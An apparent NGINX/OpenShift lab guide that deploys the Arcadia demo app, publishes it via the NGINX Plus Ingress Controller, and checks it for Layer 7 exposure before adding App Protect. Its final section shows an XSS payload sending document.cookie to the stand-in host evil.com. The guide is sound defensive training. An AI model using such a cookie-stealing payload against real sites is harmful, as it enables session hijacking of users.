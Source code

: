 == Access Arcadia App without NGINX App Protect to establish a baseline

== Cleanup Process

Upon the completion of Lab Module 1, it's necessary to tidy up the lab
environment. Please follow the steps mentioned below.

Execute the following commands in the bash terminal:

[source,sh,role=execute]
----
oc delete virtualserver arcadia
oc delete -f arcadia.yml 
----


== Deploy the Arcadia Application into Kubernetes

[NOTE]
.Note
====
The Arcadia Financial application is the same application we introduced
in Module 1, but a different version with enhanced features which will
be used for our security lab exercises.
====

Before we can access the Arcadia application, we need to deploy it into
our OpenShift cluster. To do this, we'll use a single manifest file
that contains the necessary resources, such as Kubernetes deployments
for the four Docker containers and Kubernetes services for the four
Docker containers.

To get the YAML file, we'll use the following command in our terminal
window:

[source,sh,role=execute]
----
wget https://raw.githubusercontent.com/ericzji/nginx-openshift-lab/main/docs/class1/module2/templates/arcadia-all.yaml
----

Once we have the YAML file, we can apply it to our Kubernetes cluster
with the following command:

[source,sh,role=execute]
----
oc apply -f ./arcadia-all.yaml
----

We can check that our Arcadia application is running by using the
following command in our terminal window:

[source,sh,role=execute]
----
oc get services
----

This will show us the services running in our Kubernetes cluster,
including those related to the Arcadia application.

== Export the NGINX Ingress Controller services

Interacting with the NGINX Ingress Controller is more comfortable with
exporting the service External IPs into system variables. This allows
for templating to take place when we expose our applications.

In the terminal window, copy the below text and paste+enter:

[source,bash]
----
export nginx_ingress=$(oc get svc my-nginx-ingress-controller --namespace=nginx-ingress | tr -s " " | cut -d' ' -f4 | grep -v "EXTERNAL-IP")
----

== Publish Arcadia app with NGINX Plus Ingress Controller

Now that we have our Arcadia application deployed in our Kubernetes
cluster, we need to publish it using the NGINX Plus Ingress Controller.
We'll do this by re-creating the NGINX Ingress Controller with Basic
HTTP using the following command in our terminal window:

This command creates a VirtualServer resource for our Arcadia
application, which includes the host for the NGINX Ingress Controller
and the upstreams for the different microservices. We can now access our
Arcadia application externally using the NGINX Ingress Controller URL,
which can be found by running the following command in our terminal
window:

[source,bash]
----
echo "NGINX Ingress Controller URL: http://$nginx_ingress/"
----

Once we have the URL, we can access our Arcadia application by opening
it in a web browser.

You should be presented with the Main page, click on Login and enter the
credentials as below.

[source,]
----
Username: matt
Password: ilovef5
----

When you click on Log me in, you should be presented with the Arcadia
application that consists of four microservices:

image:image10.png[image]

Congratulations!

You have now successfully deployed the application in the K8s cluster and
published it externally using the NGINX Plus Ingress controller.

== Is our application protected against Layer 7 attacks?

Before we can protect our Arcadia application with NGINX App Protect, we
need to check if it's currently vulnerable to Layer 7 attacks. We can do
this by executing a simple XSS attack, which is a well-known OWASP top
10 attack.

To perform the XSS attack, we can launch the Firefox browser and append
`?a=<script>` to the end of the application URL. If the request is
allowed, then our application is vulnerable to XSS attacks.

image:image11.png[image]

We can further test this by appending
`?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`
to the application URL, which will attempt to steal our document cookie.
If this request is also allowed, then a bad actor could potentially
steal sensitive information from our application user.

image:image12.png[image]

Since our application is currently vulnerable to Layer 7 attacks, we'll
need to protect it using NGINX App Protect in the following Lab.
